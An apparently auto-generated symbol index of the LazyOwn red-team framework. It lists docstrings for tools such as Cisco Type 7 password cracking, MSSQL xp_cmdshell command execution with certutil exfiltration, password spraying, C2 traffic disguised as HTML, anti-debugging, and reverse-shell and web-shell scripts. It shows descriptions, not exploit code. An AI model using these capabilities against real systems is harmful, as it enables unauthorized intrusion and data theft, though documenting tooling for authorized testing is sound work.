    bool: True if the character is a digit, False otherwise.*
- `crack_password` (line 1932) `def crack_password(crypttext)` - *Crack a Cisco Type 7 password.

Args:
    crypttext (str): The encrypted password in Type 7 format.

Returns:
    str: The cracked plaintext password or an empty string if invalid.*
- `get_terminal_size` (line 1972) `def get_terminal_size()`
- `halp` (line 1981) `def halp()` - *Display the help panel for the LazyOwn RedTeam Framework.

This function prints usage instructions, options, and descriptions for
running the LazyOwn framework. It provides users with an overview of
command-line options that can be used when executing the `./run` command.

The output includes the current version of the framework and various
options available for users, along with a brief description of each option.

Options include:
    - `--help`: Displays the help panel.
    - `-v`: Shows the version of the framework.
    - `-p <payloadN.json>`: Executes the framework with a specified payload
      JSON file. This option is particularly useful for Red Teams.
    - `-c <command>`: Executes a specific command using LazyOwn, for
      example, `ping`.
    - `--no-banner`: Runs the framework without displaying the banner.
    - `-s`: Runs the framework with root privileges.
    - `--old-banner`: Displays the old banner.

Example:
    To see the help panel, call the function as follows:

    >>> halp()

Note:
    - This function exits the program after displaying the help information,
      using `sys.exit(0)`.*
- `ensure_tmux_session` (line 2036) `def ensure_tmux_session(session_name)` - *Ensure that a tmux session is active.

This function checks whether a specified tmux session is currently running.
If the session does not exist, it creates a new tmux session with the specified
name and executes the command to run the LazyOwn RedTeam Framework script.

The function uses the `tmux has-session` command to check for the existence
of the session. If the session is not found (i.e., the return code is not zero),
it will create a new tmux session in detached mode and run the command
`./run --no-banner` within that session.

Args:
    session_name (str): The name of the tmux session to check or create.

Example:
    To ensure that a tmux session named 'lazyown_sessions' is active,
    call the function as follows:

    >>> ensure_tmux_session('lazyown_sessions')

Note:
    - Ensure that tmux is installed and properly configured on the system.
    - The command executed within the tmux session must be valid and
      accessible in the current environment.*
- `get_xml` (line 2072) `def get_xml(directory)` - *Retrieves a list of XML files from the specified directory.

Args:
    directory (str): The directory to search for XML files.

Returns:
    list: A list of XML filenames found in the specified directory.*
- `get_domain_from_xml` (line 2085) `def get_domain_from_xml(xml_file)` - *Extracts the first domain or IP address from an Nmap scan XML file.*
- `shellcode_to_sylk` (line 2115) `def shellcode_to_sylk(shellcode_path)`
- `get_banner` (line 2140) `def get_banner(ip, port)`
- `list_binaries` (line 2157) `def list_binaries(directory)` - *List all executable binaries in the specified directory.

Parameters:
directory (str): The directory to search for binaries. Defaults to 'sessions'.

Returns:
list: A list of paths to executable binaries.*
- `select_binary` (line 2177) `def select_binary(binaries)` - *Prompt the user to select a binary from a list.

Parameters:
binaries (list): A list of binary paths.

Returns:
str: The path of the selected binary.*
- `decode` (line 2202) `def decode(data)` - *Decodes base64 data received from the server output.

Parameters:
data (str): Encoded base64 data from the server.

Returns:
str: Decoded string output, or an error message if decoding fails.*
- `get_command` (line 2220) `def get_command(url, lhost)` - *Reads a command from standard input and initiates a thread to send the command to the target server.*
- `send_command` (line 2231) `def send_command(cmd, url, lhost)` - *Constructs and sends an SQL payload with xp_cmdshell and certutil for command execution and exfiltration.

Parameters:
cmd (str): Command to be executed on the remote MSSQL server.*
- `activate_server` (line 2259) `def activate_server(httpd, url, lhost)` - *Activates the HTTP server and fetches the first command from the user.

Parameters:
httpd (HTTPServer): The server instance to activate.*
- `Spray` (line 2270) `def Spray(domain, users, password, target_url, wait, verbose, more_verbose)`
- `ProcessResults` (line 2317) `def ProcessResults(results, outfile)`
- `generate_index` (line 2332) `def generate_index(repo_dir)` - *Generates an APT repository structure and index files for proper compatibility.

Parameters:
repo_dir (str): Path to the repository directory.

Returns:
None*
- `replace_variables` (line 2382) `def replace_variables(command, variables)` - *Replace variables in a command string with their corresponding values.

This function takes a command string and a dictionary of variables and their values.
It replaces each occurrence of a variable in the command string with its corresponding value.

Args:
    command (str): The command string containing variables to be replaced.
    variables (dict): A dictionary where the keys are the variables to be replaced
                      and the values are the corresponding values to replace them with.

Returns:
    str: The command string with all variables replaced by their corresponding values.*
- `create_caldera_config` (line 2403) `def create_caldera_config(file_path)` - *Creates a Caldera configuration file with the specified content at the given file path.

Parameters:
file_path (str): The path where the configuration file will be created.

Returns:
None*
- `extract_banners` (line 2499) `def extract_banners(xml_file)` - *Extract banner information from an XML file.

This function parses an XML file and extracts banner information for each host and port.
The banner information includes the hostname, port, protocol, extra details, and service.

Args:
    xml_file (str): The path to the XML file to be parsed.

Returns:
    list: A list of dictionaries, where each dictionary contains banner information for a specific host and port.
          Each dictionary has the following keys:
            - hostname (str): The hostname of the host.
            - port (str): The port number.
            - protocol (str): The protocol used (e.g., tcp, udp).
            - banner (str): Extra information about the service.
            - service (str): The name of the service running on the port.

Example:
    banners = extract_banners('path/to/file.xml')*
- `scrape_news` (line 2548) `def scrape_news()` - *Makes a request to the Hacker News page and extracts titles, links, and scores.

Returns:
    tuple: Three lists containing the titles, links and scores of the news items respectively.*
- `display_news` (line 2583) `def display_news(titles, links, scores)` - *Creates a pandas DataFrame and prints it, showing titles, links, and scores.

Args:
    titles (list): List of news titles.
    links (list): List of news links.
    scores (list): List of news scores.*
- `htmlify` (line 2597) `def htmlify(data)` - *Wrap C2 comms in html and html2 code to make requests look more legitimate*
- `de_htmlify` (line 2608) `def de_htmlify(data)` - *Cleant wrap C2 comms of html and html2 code to get the command from request*
- `is_port_in_use` (line 2620) `def is_port_in_use(port, host)`
- `return_creds` (line 2629) `def return_creds()`
- `query_arin_ip` (line 2643) `def query_arin_ip(ip)` - *Queries ARIN whois API for organization information of an IP address.

Args:
    ip: The IP address to query.

Returns:
    A dictionary containing IP information or None on failure.*
- `get_org` (line 2662) `def get_org(data)` - *Extracts organization name from ARIN whois response data.

Args:
    data: The JSON data from the ARIN whois API response.

Returns:
    The organization name or "null" if not found.*
- `load_adversary` (line 2679) `def load_adversary()`
- `replace_placeholders` (line 2685) `def replace_placeholders(template, replacements)` - *Replace placeholders in a template string with values from a dictionary.

Single-pass delegation to replace_command_placeholders: substituted
values are never re-scanned, so a value that looks like a placeholder
stays literal instead of triggering a second substitution.

Parameters:
    template (str): The template string containing placeholders.
    replacements (dict): A dictionary where keys are placeholders and values are replacements.

Returns:
    str: The template string with placeholders replaced.*
- `replace_command_placeholders` (line 2703) `def replace_command_placeholders(command, params)` - *Replace placeholders in a command string with values from a params dictionary.

Supports both single-brace ``{key}`` and double-brace ``{{key}}`` placeholder
syntax, with optional whitespace inside the braces (``{ key }``). Addons are
documented to emit ``{{key}}`` (see ``modules/yaml_generator.py``). Unknown
keys are left intact so an unresolved placeholder is easy to spot.

Args:
    command (str): The command string containing placeholders.
    params (dict): A dictionary containing key-value pairs for replacement.

Returns:
    str: The command string with placeholders replaced by their corresponding values.*
- `parse_nmap_csv` (line 2729) `def parse_nmap_csv(csv_path)`
- `query_ollama` (line 2743) `def query_ollama(prompt, model)` - *Sends query to Ollama and returns model response.*
- `preprocess_llm_response` (line 2758) `def preprocess_llm_response(response)` - *Pre-process LLM response to handle common issues before YAML parsing*
- `manual_yaml_extraction` (line 2793) `def manual_yaml_extraction(content)` - *Fallback method to manually extract YAML data from malformed content*
- `create_synthetic_yaml` (line 2859) `def create_synthetic_yaml(nmap_services)` - *Create a basic synthetic YAML playbook when all else fails*
- `parse_yaml_response` (line 2932) `def parse_yaml_response(content)` - *Improved function to extract and parse YAML content from LLM response
with better error handling and recovery attempts*
- `fix_common_yaml_issues` (line 2967) `def fix_common_yaml_issues(yaml_content)` - *Fixes common YAML formatting issues*
- `aggressive_yaml_fix` (line 3007) `def aggressive_yaml_fix(yaml_content)` - *More aggressive YAML fixing for recovery attempts*
- `save_playbook` (line 3038) `def save_playbook(playbook_data, playbook_name)` - *Guarda el playbook generado en disco*
- `load_knowledge_base` (line 3050) `def load_knowledge_base(knowledge_file)` - *Carga la base de conocimientos personalizada.*
- `anti_debug` (line 3058) `def anti_debug()`
- `create_msfshellcoder_parser` (line 3067) `def create_msfshellcoder_parser()`
- `load_user_aliases` (line 3087) `def load_user_aliases()` - *Carga los aliases del archivo JSON si existe.*
- `_build_startup_parser` (line 3403) `def _build_startup_parser()` - *Build the CLI argument parser for LazyOwn startup flags.*
- `_redact` (line 1142) `def _redact(text)`
- `send_request` (line 1665) `def send_request(raw_url)`
- `handle_forms` (line 1702) `def handle_forms(content, url)`
- `replace_match` (line 2721) `def replace_match(match)`
- `_cvss_sort_key` (line 3390) `def _cvss_sort_key(record)`

**Methods:**
- `log_request` (line 3112) `def log_request(self)`
- `log_message` (line 3115) `def log_message(self)`
- `do_GET` (line 3118) `def do_GET(self)` - *Serve certutil callback using centralized payload config.*
- `__init__` (line 3138) `def __init__(self)`
- `open_file` (line 3143) `def open_file(self, filename)` - *Open and parse the IP-to-ASN file.*
- `open_reader` (line 3148) `def open_reader(self, reader)` - *Parse the reader stream, handling both regular and gzipped files.*
- `_parse_file` (line 3158) `def _parse_file(self, reader)` - *Parse the TSV data and load it into memory.*
- `as_of_ip` (line 3188) `def as_of_ip(self, ip)` - *Return the ASN associated with the given IP address.*
- `_rec_index_has_ip` (line 3194) `def _rec_index_has_ip(self, idx, ip)` - *Check if the given index contains the IP.*
- `as_name` (line 3203) `def as_name(self, asn)` - *Get the AS name by ASN.*
- `as_country` (line 3207) `def as_country(self, asn)` - *Get the country by ASN.*
- `__init__` (line 3244) `def __init__(self, user_agent, max_workers, sessions_dir, description_language)` - *Initialize the scanner with configurable network and storage knobs.

Args:
    user_agent: HTTP ``User-Agent`` header sent to the NVD and
        cvedetails.com. When ``None`` the default desktop UA is
        used so every NVD request remains identifiable.
    max_workers: Upper bound on concurrent cvedetails enrichment
        requests. Higher values shorten wall-clock time at the
        cost of being rate-limited.
    sessions_dir: Directory where JSON reports are persisted.
        Defaults to ``<cwd>/sessions``.
    description_language: ISO 639-1 language code used to pick
        the human-readable CVE description from the NVD payload.*
- `search_cves` (line 3270) `def search_cves(self, service)` - *Return CVE records matching the supplied service banner.

Each record contains ``cve_id``, ``description``, ``cvss`` and
``url`` keys. CVSS data is fetched concurrently from
cvedetails.com using a bounded thread pool.

Args:
    service: The service banner or keyword to query (for
        example ``"ProFTPD 1.3.5"``).

Returns:
    A list of CVE dictionaries. Empty when the upstream API is
    unreachable or returns no matches.*
- `_enrich_cve` (line 3319) `def _enrich_cve(self, cve_info)` - *Populate ``cvss`` for an in-place CVE record from cvedetails.com.

Args:
    cve_info: A CVE record produced by :meth:`search_cves`. The
        record is mutated in place. Network or parsing errors
        are swallowed so a single failure does not abort the
        pool.*
- `persist` (line 3340) `def persist(self, service, target, cves)` - *Persist ``cves`` to ``sessions/vulns_<target>.json``.

The schema is intentionally stable so reactive engines and
report generators can rely on the field names without
re-deriving them from CLI output. When the file already exists
the latest report supersedes the previous one — callers that
need history should retain the prior file out of band.

Args:
    service: The original service banner that produced the
        findings. Stored under ``service`` so consumers can
        attribute results to a recon step.
    target: The target identifier (typically ``rhost``). Used
        both as the filename component and the ``target`` field.
    cves: The CVE records returned by :meth:`search_cves`.

Returns:
    The absolute path of the JSON document written.*
- `pretty_print` (line 3377) `def pretty_print(self, cves_details)` - *Render ``cves_details`` as semicolon-separated rows in the shell.

Sorts the records by ascending CVSS so the operator sees the
lowest-impact rows first and the most dangerous CVEs sit at the
bottom of the scroll buffer, closest to the prompt.

Args:
    cves_details: CVE records produced by :meth:`search_cves`.*

### SH (61 files)

#### `driver.sh`
**Path:** `.claude/skills/run-lazyown/driver.sh`
**File Doc:** *Build and drive LazyOwn inside its Docker sandbox (Debian container).  LazyOwn is a Linux-targeted cmd2 shell; it does not run natively on a non-Linux host (Linux venv paths, shells out to `ip a`, Linux-only deps). The sandbox image is the supported way to launch it anywhere Docker runs. This driver builds the image and drives the shell through its headless runner, which exits with a status code and emits one JSON object per command instead of entering the interactive loop.  Usage, from the repo root: bash .claude/skills/run-lazyown/driver.sh                # smoke test bash .claude/skills/run-lazyown/driver.sh "help"         # one command bash .claude/skills/run-lazyown/driver.sh "a; b; c"      # command chain  Exit code mirrors the headless runner: 0 = all commands OK.*

*No symbols extracted*

#### `DEPLOY.sh`
**Path:** `DEPLOY.sh`

**Functions:**
- `increment_version` (line 19)
- `update_section_html` (line 86) - *Función para actualizar una sección específica*
- `get_commit_type` (line 190) - *Función para obtener el tipo de cambio basado en el mensaje del commit*

#### `bootstrap.sh`
**Path:** `bootstrap.sh`
**File Doc:** *LazyOwn bootstrap installer (one-liner entry point).  Clones the repository into a target directory (default: $HOME/LazyOwn), runs install.sh, then asks whether to launch a normal session (./run) or the full stack as root (fast_run_as_r00t.sh).  One-liner (download first, then run — immune to pipe stalls and CDN cache): curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh -o /tmp/bootstrap.sh \ && bash /tmp/bootstrap.sh  Pipe alternative (same result, single command): curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh | bash  With options (append after the script path, or use bash -s through the pipe): bash /tmp/bootstrap.sh -- --with-tools --dir ~/pentest/LazyOwn curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh | bash -s -- --with-tools --dir ~/pentest/LazyOwn  asks what to do: update in place (git pull + reinstall), clean install (delete everything and clone fresh), install into a different directory, or abort. Set --existing to skip the question in scripts.  Options: --dir <path>     Install directory (default: $HOME/LazyOwn, or $LAZYOWN_DIR). --branch <name>  Git branch to clone (default: main, or $LAZYOWN_BRANCH). --with-ml        Also install the heavy ML stack (forwarded to install.sh). --with-ollama    Also install the Ollama runtime (forwarded to install.sh). --with-tools     Also apt-install common external pentest tools.*

**Functions:**
- `usage` (line 70)
- `log` (line 74)
- `fail` (line 92)
- `spin_run` (line 97)
- `can_prompt` (line 239)
- `ask` (line 250)
- `update_checkout` (line 259)
- `backup_payload` (line 268)
- `clone_fresh` (line 280)
- `clean_checkout` (line 286)
- `confirm_clean` (line 293)
- `ask_new_dir` (line 303)
- `ask_existing_checkout_action` (line 315)
- `ask_existing_path_action` (line 336)
- `resolve_target_dir` (line 355)
- `ask_launch_mode` (line 432)

#### `install_external.sh`
**Path:** `external/install_external.sh`
**File Doc:** *Nombre del script: download_resources.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 31/07/2024 Descripción: Este script contiene la lógica principal de la aplicación. download_resources Licencia: GPL v3  Función para manejar señales (como Ctrl+C)*

**Functions:**
- `download` (line 18)
- `ctrl_c` (line 13)

#### `fast_run_as_r00t.sh`
**Path:** `fast_run_as_r00t.sh`
**File Doc:** *fast_run_as_r00t.sh — LazyOwn full-stack orchestrator  Speed-run launcher: brings up every core service in a tmux session.  Fixed panes: [0] Recon        — lazynmap full scan [1] Network      — addhosts + ping sweep [2] C2 implant   — createcredentials + c2 launch [3] Auto-loop    — autonomous loop (waits SLEEP_START) [4] lazyc2       — Flask C2 server (unprivileged) [5] www          — HTTP file server + certs [6] VPN          — tun interface  Optional panes (driven by payload.json flags): DeepSeek/Ollama, Discord C2, Telegram C2, Cloudflare tunnel, NC revshell*

**Functions:**
- `_jq` (line 31) - *── Read payload.json ─────────────────────────────────────────────────────────*
- `log` (line 59) - *── Pretty-print helpers ──────────────────────────────────────────────────────*
- `spin` (line 60)
- `err_box` (line 61)
- `ensure_gum` (line 67) - *── Ensure gum is installed ───────────────────────────────────────────────────*
- `check_deps` (line 78) - *── Dependency check ──────────────────────────────────────────────────────────*
- `check_sudo` (line 87) - *── Re-exec as root if needed ─────────────────────────────────────────────────*
- `parse_args` (line 96) - *── CLI argument parsing ──────────────────────────────────────────────────────*
- `t_send` (line 114) - *Send one or more commands to the active tmux pane*
- `t_lazyown` (line 121) - *Open a new pane (split v or h), start LazyOwn shell with optional run flags, then send any follow-up commands once the shell is up. Usage: t_lazyown <v|h> <delay_secs> <run_flags> [cmd1] [cmd2] ...*
- `t_priv_user` (line 134) - *Open a new pane running a command as unprivileged user 1000 (with venv). Usage: t_priv_user <v|h> <command_string>*
- `start_chown_watcher` (line 145) - *── Background chown watcher ────────────────────────────────────────────────── Re-chowns the project tree to the operator UID/GID every $CHOWN_INTERVAL seconds while the tmux session is alive, so root-owned writes from the panes do not leave files the unprivileged user cannot read on the next ./run. Survives the parent script exiting (MCP mode --no-attach).*

#### `gen_cert.sh`
**Path:** `gen_cert.sh`
**File Doc:** *Verifica si se pasó una IP*

*No symbols extracted*

#### `install.sh`
**Path:** `install.sh`
**File Doc:** *LazyOwn installer.  Provisions system packages (Debian/Kali via apt), a Python virtualenv with the pinned dependency lock, external storage and encoder modules, and self-signed TLS certs. The default install is intentionally light; heavy extras are opt-in via flags.  Dependencies are declared once in pyproject.toml and pinned in requirements.txt / requirements-ml.txt. This script never duplicates the list.  Usage: bash install.sh [--profile light|full] [--with-ml] [--with-ollama] [--with-tools] [--no-ml] [--no-ollama] [--help]  --profile <name>  Install profile: full (default, everything in requirements.txt) or light (shell + C2 + recon core from requirements-light.txt, without the analytics/AI stack). Overridable per shell with LAZYOWN_PROFILE=light. --with-ml       Also install the heavy, platform-specific ML stack (torch/CUDA, sklearn ~2 GB). Skipped by default. --with-ollama   Also install the local Ollama runtime. Skipped by default. --with-tools    Also apt-install the common external pentest tools (gobuster, ffuf, enum4linux, seclists, responder, ...). --no-ml         Accepted for backwards compatibility (ML is off by default). --no-ollama     Accepted for backwards compatibility (Ollama is off by default). --help          Show this help and exit.*

**Functions:**
- `usage` (line 49)
- `log` (line 88)
- `spin_run` (line 98)
- `ensure_gum` (line 128)
- `install_system_packages` (line 139)
- `install_external_tools` (line 150)
- `install_python_environment` (line 165)
- `install_ollama` (line 206)
- `install_external_storage` (line 218)
- `install_lazyownbt` (line 231)
- `download_file` (line 251)
- `install_encoder_module` (line 263)
- `generate_certificates` (line 274)
- `seed_payload_config` (line 281)
- `verify_installation` (line 294)
- `main` (line 310)

#### `entrypoint.sh`
**Path:** `lazyown-docker/entrypoint.sh`
**File Doc:** *LazyOwn Entrypoint Script Initializes LazyOwn framework in a Docker container with tmux sessions*

*No symbols extracted*

#### `hostdiscover.sh`
**Path:** `lazyown-docker/hostdiscover.sh`

**Functions:**
- `extract_ips_from_arp` (line 21)
- `extract_listening_ips_from_netstat` (line 26)

#### `init.sh`
**Path:** `lazyown-docker/init.sh`

*No symbols extracted*

#### `mkdocker.sh`
**Path:** `lazyown-docker/mkdocker.sh`
**File Doc:** *LazyOwn Dockerizer Script Builds, runs, and manages Docker containers for LazyOwn red teaming framework*

**Functions:**
- `usage` (line 23) - *Help message*
- `log` (line 36) - *Log function*
- `check_docker` (line 41) - *Check if Docker is running*
- `check_file` (line 49) - *Check if file exists*
- `container_exists` (line 58) - *Check if container exists*
- `image_exists` (line 63) - *Check if image exists*
- `get_ports` (line 68) - *Get ports from payload.json*
- `build_image` (line 93) - *Build Docker image*
- `validate_payload` (line 109) - *Validate payload.json exists*
- `run_container` (line 117) - *Run container*
- `stop_container` (line 187) - *Stop container*
- `clean_container_and_image` (line 197) - *Clean container and image*

#### `cal.sh`
**Path:** `modules/cal.sh`
**File Doc:** *Función para calcular si un año es bisiesto*

**Functions:**
- `is_leap_year` (line 4) - *Función para calcular si un año es bisiesto*
- `days_in_month` (line 14) - *Función para obtener el número de días en un mes*
- `first_day_of_month` (line 31) - *Función para obtener el día de la semana del primer día del mes*

#### `lazywebshell.sh`
**Path:** `modules/cgi-bin/lazywebshell.sh`

*No symbols extracted*

#### `duckdns.sh`
**Path:** `modules/duckdns.sh`
**File Doc:** *Solicita el TOKEN y el DOMAIN al usuario*

*No symbols extracted*

#### `eegg.sh`
**Path:** `modules/eegg.sh`
**File Doc:** *Definición de colores*

**Functions:**
- `init_board` (line 26) - *Inicializa el tablero con las piezas en sus posiciones iniciales*
- `show_board` (line 40) - *Función para mostrar el tablero*
- `move_white_pawns` (line 61) - *Movimiento de peones blancos y negros*
- `move_black_pawns` (line 78)

#### `evilhttprev.sh`
**Path:** `modules/evilhttprev.sh`

*No symbols extracted*

#### `fast_run_service.sh`
**Path:** `modules/fast_run_service.sh`
**File Doc:** *fast_run_service.sh  LazyOwn service-mode orchestrator. Boots the framework's long-running components (C2 server, HTTP file server, VPN tunnel, optional bots and tunnels) as detached background processes for MCP and single-instance deployments where no operator tmux session is available.  Lifecycle: start | stop | restart | status | logs <name> | chown-now.  Differs from fast_run_as_r00t.sh in that it does not allocate tmux panes, does not invoke interactive workflow commands (lazynmap / auto-loop / createcredentials), and is safe to run from systemd, OpenRC, supervisord, or a Claude MCP server.*

**Functions:**
- `log_timestamp` (line 69) - *# # Logging primitives. Single-responsibility wrappers around printf so all # log lines share a uniform ISO-8601 timestamp prefix. #*
- `log_info` (line 73)
- `log_warn` (line 77)
- `log_error` (line 81)
- `require_root` (line 89) - *# # Pre-flight checks. Each function performs one verification and returns # non-zero on failure so the caller can decide how to surface it. #*
- `require_deps` (line 97)
- `require_paths` (line 113)
- `prepare_runtime_dirs` (line 126)
- `load_config` (line 139)
- `config_truthy` (line 155)
- `pid_file_for` (line 166) - *# # PID-file primitives. Encapsulate the per-service filesystem contract so # lifecycle commands never touch paths directly. #*
- `log_file_for` (line 171)
- `read_pid_value` (line 176)
- `is_pid_alive` (line 189)
- `is_service_running` (line 194)
- `write_pid_file` (line 201)
- `ensure_log_file` (line 211)
- `spawn_as_target_user` (line 228) - *# # Process spawn primitives. One pair of helpers covers every service: # spawn_as_target_user for unprivileged components, spawn_as_root for # components that need root (e.g. VPN tun device). #*
- `spawn_as_root` (line 247)
- `terminate_pid_tree` (line 264)
- `stop_named_service` (line 292)
- `chown_project_tree` (line 310) - *# # Ownership maintenance. Both an on-demand restore and a background loop # tied to the chown_watcher pseudo-service so root-owned writes from any # service never leave files the operator user cannot read. #*
- `start_chown_watcher` (line 315)
- `start_lazyc2_service` (line 342) - *# # Concrete service launchers. Each function knows how to start exactly one # component and decides whether it should run based on payload.json flags. #*
- `start_www_service` (line 356)
- `start_vpn_service` (line 363)
- `start_discord_service` (line 380)
- `start_telegram_service` (line 390)
- `start_cloudflare_service` (line 400)
- `start_ollama_service` (line 410)
- `managed_services_in_order` (line 429) - *# # Service registry. The single ordered list of services this script owns. # Startup order matches this array; shutdown order is its reverse. #*
- `cmd_start` (line 445) - *# # Lifecycle commands. These are the only entry points called from main(). #*
- `cmd_stop` (line 465)
- `cmd_restart` (line 480)
- `cmd_status` (line 486)
- `cmd_logs` (line 505)
- `cmd_chown_now` (line 521)
- `usage` (line 528)
- `main` (line 557) - *# # Entry point. require_root re-executes under sudo and never returns there; # the case-arm dispatch is reached only when we are already root. #*

#### `gui_askpass.sh`
**Path:** `modules/gui_askpass.sh`
**File Doc:** *gui_askpass.sh — SUDO_ASKPASS helper for LazyOwn MCP  Used by: sudo -A <script>  (set SUDO_ASKPASS to this file's path)  Tries GUI backends in order of preference. Outputs the password to stdout (as required by SUDO_ASKPASS protocol). On cancel / error: exits non-zero so sudo aborts cleanly.  Backend priority: 1. zenity        (GTK, GNOME) 2. yad           (GTK, modern) 3. ssh-askpass   (any X11) 4. kdialog       (KDE/Qt) 5. xterm -e read (fallback — last resort X11)*

**Functions:**
- `has` (line 22) - *── helpers ───────────────────────────────────────────────────────────────────*
- `try_zenity` (line 24)
- `try_yad` (line 28)
- `try_ssh_askpass` (line 33)
- `try_kdialog` (line 40)

#### `hostdiscover.sh`
**Path:** `modules/hostdiscover.sh`

**Functions:**
- `extract_ips_from_arp` (line 21)
- `extract_listening_ips_from_netstat` (line 26)

#### `internal_discover.sh`
**Path:** `modules/internal_discover.sh`

*No symbols extracted*

#### `iptables_portforward.sh`
**Path:** `modules/iptables_portforward.sh`
**File Doc:** *------------------------------------------------------------------------------- iptables-port-forward.sh  This script configures port forwarding using iptables. It can either set up the rules to redirect traffic or clean them up.  Usage: To set up: ./iptables-port-forward.sh -t <DESTINATION_IP> -p <PORT> To clean:  ./iptables-port-forward.sh -t <DESTINATION_IP> -c  Options: -t <DESTINATION_IP>  : The IP address where traffic will be redirected. -p <PORT>            : The destination port. Default is 80. -c                   : Clean up all rules added by this script. -------------------------------------------------------------------------------*

**Functions:**
- `display_usage` (line 29) - *------------------------------------------------------------------------------ Function: display_usage  Displays the correct usage of the script and exits. -------------------------------------------------------------------------------*

#### `lazyatack.sh`
**Path:** `modules/lazyatack.sh`
**File Doc:** *Nombre del script: lazyatack.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. LazyAtack Licencia: GPL v3   Banner*

**Functions:**
- `mostrar_ayuda` (line 21) - *Función para mostrar ayuda*
- `validar_ip` (line 33) - *Función para validar una dirección IP*
- `validar_url` (line 49) - *Función para validar URL*
- `descargar_seclists` (line 107) - *Función para descargar y extraer SecLists*
- `escanear_puertos` (line 115) - *Función para ejecutar escaneo de puertos con nmap*
- `escanear_puertos_especificos` (line 121) - *Función para escanear puertos específicos*
- `enumerar_http` (line 127) - *Función para enumerar servicios HTTP*
- `iniciar_servidor_http` (line 133) - *Función para iniciar servidor HTTP con Python*
- `configurar_netcat` (line 139) - *Función para configurar netcat*
- `enviar_archivo_netcat` (line 145) - *Función para enviar archivo mediante bash a netcat*
- `verificar_conectividad` (line 151) - *Función para verificar conectividad con ping y tcpdump*
- `verificar_curl` (line 158) - *Función para verificar conectividad con curl*
- `configurar_shell_reversa` (line 165) - *Función para configurar una shell reversa*
- `escuchar_shell` (line 171) - *Función para escuchar shell con netcat*
- `monitorear_procesos` (line 177) - *Función para monitorear procesos*
- `ejecutar_wfuzz` (line 188) - *Función para ejecutar wfuzz*
- `comprobar_sudo` (line 194) - *Función para comprobar permisos sudo*
- `explotar_lfi` (line 200) - *Función para explotar LFI*
- `configurar_tty` (line 206) - *Función para configurar TTY*
- `eliminar_archivos` (line 217) - *Función para eliminar archivos de forma segura*
- `obtener_root_shell` (line 223) - *Función para obtener root shell mediante Docker*
- `enumerar_suid` (line 230) - *Función para enumerar archivos con SUID*
- `listar_timers` (line 236) - *Función para listar timers de systemd*
- `comprobar_rutas` (line 242) - *Función para comprobar rutas de comandos*
- `abusar_tar` (line 248) - *Función para abusar de tar*
- `enumerar_puertos` (line 254) - *Función para enumerar puertos abiertos*
- `eliminar_contenedores_docker` (line 260) - *Función para eliminar contenedores Docker*
- `escanear_red` (line 266) - *Función para escanear red*
- `menu_servidor` (line 272) - *Función para mostrar menú en modo servidor*
- `menu_cliente` (line 307) - *Función para mostrar menú en modo cliente*

#### `lazybrutesshuserenum.sh`
**Path:** `modules/lazybrutesshuserenum.sh`
**File Doc:** *Función para manejar el interruptor de señal Ctrl+C*

*No symbols extracted*

#### `lazyclonewars.sh`
**Path:** `modules/lazyclonewars.sh`
**File Doc:** *Lista de repositorios (nombre y URL)*

*No symbols extracted*

#### `lazycurl.sh`
**Path:** `modules/lazycurl.sh`
**File Doc:** *Nombre del script: lazycurl.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazycurl Licencia: GPL v3  Banner*

**Functions:**
- `ctrl_c` (line 23)
- `show_help` (line 29) - *Función para mostrar la ayuda*
- `execute_curl` (line 52) - *Función para ejecutar el comando CURL*

#### `lazyevilwimrm.sh`
**Path:** `modules/lazyevilwimrm.sh`

**Functions:**
- `execute_evil_winrm` (line 14) - *Función para ejecutar evil-winrm y verificar la salida*

#### `lazygat.sh`
**Path:** `modules/lazygat.sh`
**File Doc:** *Nombre del script: lazygath.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. Lazygathering Licencia: GPL v3   Verifica si se está ejecutando como root*

*No symbols extracted*

#### `lazylynis.sh`
**Path:** `modules/lazylynis.sh`
**File Doc:** *Verificar si se proporcionó un argumento para el host remoto*

**Functions:**
- `check_sudo` (line 32) - *Función para verificar y relanzar con sudo si es necesario*

#### `lazymasscan.sh`
**Path:** `modules/lazymasscan.sh`
**File Doc:** *Nombre del script: lazymasscan.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación lazymasscan. Licencia: GPL v3*

**Functions:**
- `extract_ports_info` (line 74)
- `run_masscan_script` (line 94)
- `print_row` (line 117)
- `ctrl_c` (line 20)

#### `lazymobilerevshell.sh`
**Path:** `modules/lazymobilerevshell.sh`
**File Doc:** *Verificar si se pasaron los argumentos de IP y puerto*

*No symbols extracted*

#### `lazynmap.sh`
**Path:** `modules/lazynmap.sh`
**File Doc:** *Nombre del script: lazynmap.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazynmap Licencia: GPL v3*

**Functions:**
- `cleanup` (line 29)
- `fix_sessions_owner` (line 74) - *Best-effort ownership fixup: scans run under sudo leave root-owned files behind, and only root can chown those. Try passwordless sudo first, fall back to a plain call, and stay silent when neither is permitted (non-fatal: the scan artefacts themselves are already written at this point).*
- `nmaptest` (line 129)
- `discover_network` (line 149)
- `extract_ports_info` (line 818)
- `run_nmap_script` (line 844)
- `print_row` (line 877)
- `ctrl_c` (line 38)

#### `lazypsexec.sh`
**Path:** `modules/lazypsexec.sh`

**Functions:**
- `execute_psexec` (line 15) - *Función para ejecutar psexec y verificar la salida*

#### `lazyreverse_shell.sh`
**Path:** `modules/lazyreverse_shell.sh`
**File Doc:** *Nombre del script: lazyreverse_shell.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazyreverse_shell Licencia: GPL v3   Banner*

**Functions:**
- `mostrar_ayuda` (line 21) - *Función para mostrar ayuda*
